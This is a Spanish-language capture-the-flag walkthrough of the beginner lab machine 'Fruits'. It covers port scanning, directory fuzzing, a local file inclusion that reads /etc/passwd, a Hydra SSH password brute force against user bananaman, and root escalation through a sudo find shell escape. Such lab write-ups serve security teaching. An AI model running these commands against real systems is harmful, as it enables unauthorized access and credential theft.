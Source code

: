 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Fruits

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.60
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/imagen (16).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.60
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/imagen (17).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80,3306 -v 192.168.1.60
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/imagen (18).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos una página de frutas para buscarlas.

<figure><img src="../../.gitbook/assets/imagen (19).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://192.168.1.60/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html -t 100
```

<figure><img src="../../.gitbook/assets/imagen (20).png" alt=""><figcaption></figcaption></figure>

Después de realizar una revisión inicial, observamos que al acceder al directorio `/fruits.php`, este aparece en blanco. Esto nos lleva a sospechar que podría tratarse de una vulnerabilidad de inclusión local de archivos (LFI, por sus siglas en inglés). Para confirmar esta hipótesis y explorar posibles parámetros que alteren el comportamiento de la página, decidimos utilizar la herramienta **wfuzz**. El objetivo es identificar parámetros ocultos o no documentados que permitan explotar la vulnerabilidad o arrojar más información sobre el funcionamiento del archivo.

A continuación, ejecutamos **wfuzz** para enumerar parámetros potenciales que puedan estar presentes en la página y desencadenar un comportamiento diferente, lo cual nos ayudará a validar si realmente estamos ante una vulnerabilidad LFI.

```bash
wfuzz -c --hl=1 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://192.168.1.60/fruits.php?FUZZ=/etc/passwd
```

<figure><img src="../../.gitbook/assets/imagen (21).png" alt=""><figcaption></figcaption></figure>

Ahora debemos ingresar en el buscador esto:

```bash
http://192.168.1.60/fruits.php?file=/etc/passwd
```

<figure><img src="../../.gitbook/assets/imagen (22).png" alt=""><figcaption></figcaption></figure>

Observamos que el comando **file** nos devuelve un resultado exitoso, revelando el contenido del archivo `/etc/passwd`. Esto nos permite identificar los usuarios del sistema. Entre ellos, destaca el usuario **bananaman**, ya que tiene acceso a la shell `/bin/bash`. Este detalle es relevante, ya que indica que **bananaman** es un usuario con permisos de inicio de sesión en el sistema, lo que podría ser útil para futuras acciones de escalada de privilegios o acceso remoto.

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```
hydra -l bananaman -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.60
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **192.168.1.60**.

<figure><img src="../../.gitbook/assets/imagen (23).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **bananaman**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh bananaman@192.168.1.60
```

<figure><img src="../../.gitbook/assets/imagen (24).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/imagen (25).png" alt=""><figcaption></figcaption></figure>

Al ejecutar el comando `sudo -l`, observamos que tenemos permisos para ejecutar el comando `find` como el usuario root. Esto indica que podríamos explotar esta configuración para elevar nuestros privilegios. Consultando la web de **GTFOBins**, encontramos que el comando `find` es vulnerable y puede ser utilizado para obtener acceso con privilegios de root.

La secuencia de comandos que nos permite aprovechar esta vulnerabilidad es la siguiente, tomada directamente de [GTFOBins](https://gtfobins.github.io/gtfobins/find/):

```
sudo /usr/bin/find -exec /bin/sh -p \; -quit
```

<figure><img src="../../.gitbook/assets/imagen (26).png" alt=""><figcaption></figcaption></figure>

Hemos finalizado con éxito **todas las etapas del proceso** y cumplido con todos los **requisitos**.&#x20;

¡Buena suerte en tu búsqueda de las **flags**! Recuerda prestar atención a cada detalle, examinar los archivos y servicios detenidamente, y utilizar todas las herramientas a tu alcance para encontrarlas. ¡La clave está en la perseverancia y en no dejar nada sin explorar! ¡Adelante, hacker! 💻🔍🚀

